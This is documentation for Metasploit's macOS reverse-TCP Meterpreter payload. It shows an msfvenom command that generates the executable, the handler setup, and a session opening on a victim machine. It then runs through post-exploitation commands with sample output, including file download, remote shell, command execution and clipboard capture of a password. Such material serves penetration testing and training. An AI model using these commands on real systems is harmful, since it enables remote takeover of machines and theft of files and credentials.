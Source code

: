 osx/x64/meterpreter_reverse_tcp is similar to the linux meterpreter, but built for OSX.
It allows you to remotely take over the compromised system, having control of the file system,
webcam, microphone, screenshot and collect sensitive information such as credentials
using post modules, etc.

## Vulnerable Application

osx/x64/meterpreter_reverse_tcp 64-bit MacOSX platforms from 10.8 onwards.

## Deploying osx/x64/meterpreter_reverse_tcp

To use osx/x64/meterpreter_reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=[IP] LPORT=4444 -f macho -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD osx/x64/meterpreter_reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious executable, you should
receive a session:

```
msf exploit(handler) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444 
msf exploit(handler) > [*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2017-08-08 12:34:49 +0800

msf exploit(handler) > sessions 1
[*] Starting interaction with 1...

meterpreter >
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/User/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /Users/User/Desktop
[*] uploading  : /tmp/data.bin -> /Users/User/Desktop
[*] uploaded   : /tmp/data.bin -> /Users/User/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /Users/User/Desktop/data.bin /tmp
[*] downloading: /Users/User/Desktop/data.bin -> /tmp/data.bin
[*] download   : /Users/User/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The getuid command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=502, gid=20, euid=502, egid=20
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The shell command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 29335 created.
Channel 2 created.
cat /tmp/hello.txt
hello
exit
meterpreter >
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel or
[CTRL]+[Z] then y (or the exit command) to terminate the channel.

**sysinfo**

The sysinfo command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : My-Computer.local
OS           : Mac OS X Sierra (MacOSX 10.12.6)
Architecture : x86
Meterpreter  : x64/osx
meterpreter > 
```

**Extensions**

OSX Meterpreter supports reading and writing to the clipboard with the extapi extension, 
you can load it with the ```load``` command:

```
meterpreter > load extapi
Loading extension extapi...Success.
meterpreter > clipboard_get_data
Text captured at
=================
pa$$w0rd
=================
```

**Other commands**

For a complete list of OSX Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```


